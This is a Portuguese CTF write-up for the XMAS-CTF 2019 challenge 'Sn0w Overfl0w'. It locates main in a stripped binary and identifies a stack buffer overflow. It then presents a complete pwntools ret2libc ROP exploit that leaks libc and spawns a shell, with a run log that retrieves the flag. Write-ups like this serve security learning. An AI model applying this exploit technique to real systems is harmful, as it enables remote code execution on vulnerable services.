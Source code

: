 # Writeup "Sn0w Overfl0w" - XMAS-CTF 2019
#### Categories: pwn, Return Oriented Programming (ROP), Buffer Overflow (BOF), leaking libc

A challenge nos oferece apenas um binário que o nomearemos como "chall".

Executando o binário, obtemos um prompt para "Helloooooo, do you like to build snowmen?" como demonstrado a seguir:
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ./chall                                                
Helloooooo, do you like to build snowmen?

Visualizando as chamadas para libraries que o binário faz, podemos reparar que ele executa um strcmp do nosso input com o texto "yes":
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ltrace ./chall
setvbuf(0x7fbbf81f3a00, 0, 2, 0)                                                                             = 0
setvbuf(0x7fbbf81f4760, 0, 2, 0)                                                                             = 0
puts("Helloooooo, do you like to build"...Helloooooo, do you like to build snowmen?)                         = 42
read(yes, "yes\n", 100)                                                                                     = 4
strcmp("yes\n", "yes")                                                                                       = 10
puts("Mhmmm... Boring..."Mhmmm... Boring...)

Na verdade, teriamos que introduzir o "yes" de forma que o caractere newline ("\n") nao entrasse no input, de forma que o strcmp retornasse true, porém todo esse processo demonstrou-se desnecessário ao analisarmos o binário com GDB e descobrirmos um buffer overflow no binário.

## Binário Stripped
Como se trata de um binário stripped, teremos que achar a função main manualmente, podemos fazer isso da seguinte forma:
```
1. fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# gdb ./chall
2. gef➤  info file
   Symbols from "/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall".
   Local exec file:
           `/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall', file type elf64-x86-64.
           Entry point: 0x401070
           0x00000000004002a8 - 0x00000000004002c4 is .interp
           0x00000000004002c4 - 0x00000000004002e4 is .note.ABI-tag
           .................. ................. .................
3. gef➤  b *0x401070
   Breakpoint 1 at 0x401070
4. gef➤  r
	Starting program: /home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall                                                              	                                         
	
	Breakpoint 1, 0x0000000000401070 in ?? ()
5. gef➤  x/20i $rip
   => 0x401070:    endbr64
      0x401074:    xor    ebp,ebp
      0x401076:    mov    r9,rdx
      0x401079:    pop    rsi
      0x40107a:    mov    rdx,rsp
      0x40107d:    and    rsp,0xfffffffffffffff0
      0x401081:    push   rax
      0x401082:    push   rsp
      0x401083:    mov    r8,0x401280
      0x40108a:    mov    rcx,0x401210
      0x401091:    mov    rdi,0x401167
      0x401098:    call   QWORD PTR [rip+0x2f52]        # 0x403ff0
      0x40109e:    hlt
      0x40109f:    nop
      0x4010a0:    endbr64
      0x4010a4:    ret
      0x4010a5:    nop    WORD PTR cs:[rax+rax*1+0x0]
      0x4010af:    nop
      0x4010b0:    mov    eax,0x404040
      0x4010b5:    cmp    rax,0x404040
```
Ok, o endereço do começo de main() é 0x401167. Mas como exatamente descobrimos isso?
No passo 2 e 3, obtemos e setamos um breakpoint para o entry point do binário, oque nada mais é que o ponto de entrada do programa, ali encontram-se as primeiras instruções de um binário, pois bem o push do endereço de main para __libc_start_main.
__libc_start_main será setado posteriormente, enquanto isso, podemos apenas assumir, que a chamada feita em 0x401098 se trata de uma "call __libc_start_main" e receberia como argumento 0x401167, o qual é mov'ido para o primeiro general purpose register $rdi a fim de ser usado como argumento para a função __libc_start_main. Logo, 0x401167 é o endereço de início da nossa função main.

## Entendendo o Execution Flow do programa e Identificando Buffer Overflow
Com a função main em mãos, podemos analisar ela via ghidra.
A função main decompilada se comporta da seguinte maneira:
```
undefined8 FUN_00401167(void)

{
  int iVar1;
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
  iVar1 = strcmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("Me too! Let\'s build one!");
  }
  else {
    puts("Mhmmm... Boring...");
  }
  return 0;
}
```
É explícita a existência de um buffer overflow ao ler 100bytes de dados para uma variavel que suporta apenas 10.
Possuindo um BOF no binário, podemos pular para a parte da exploração, porem antes disso, precisamos checkar as proteções que o binário possúi:
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# checksec ./chall 
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
"NX Enabled", No Execute esta ativado, isto é, a stack inteira se torna read-only, impossibilitando o clássico ataque de buffer-overflow consistindo na "alocação" e chamada do shellcode na stack.
A fim de burlarmos tal proteção, faremos um ataque do tipo Return Oriented Programming (ROP).

Nosso exploit final ficará da seguinte forma:
```
from pwn import *

p = remote("challs.xmas.htsp.ro", 12006)
elf = ELF("./chall")
libc = ELF("libc-2.27.so")
rop = ROP(elf)

pad = "A"*(18)
puts = elf.plt["puts"]
libc_start_main = elf.symbols["__libc_start_main"]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

info("puts@plt => "+hex(puts))
info("__libc_start_main => "+hex(libc_start_main))
info("pop rdi => "+hex(pop_rdi))

rop = pad + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(0x401070)
p.sendlineafter("snowmen?", rop)
p.recvline()
p.recvline()
leaked__libc_start_main = u64(p.recvline().strip().ljust(8, "\x00"))
info("Leaked __libc_start_main@GLIBC => "+hex(leaked__libc_start_main))

libc.address = leaked__libc_start_main - libc.sym["__libc_start_main"]
libc_base = libc.address
info("libc base => "+hex(libc_base))

system = libc.sym["system"]
str_bin_sh = next(libc.search("/bin/sh"))

info("/bin/sh => %s " % hex(str_bin_sh))
info("system => %s " % hex(system))

xpl = pad + p64(RET) + p64(pop_rdi) + p64(str_bin_sh) + p64(system)
p.sendlineafter("snowmen?", xpl)

p.interactive()
```

## Pwning!!
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# python xpl.py      
[+] Opening connection to challs.xmas.htsp.ro on port 12006: Done
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
[*] puts@plt => 0x40102c
[*] __libc_start_main => 0x403ff0
[*] pop rdi => 0x401273
[*] Leaked __libc_start_main@GLIBC => 0x7fb0ba683ab0
[*] libc base => 0x7fb0ba662000
[*] /bin/sh => 0x7fb0ba815e9a 
[*] system => 0x7fb0ba6b1440 
[*] Switching to interactive mode

Mhmmm... Boring...
$ cat flag.txt
X-MAS{700_much_5n0000w}
```
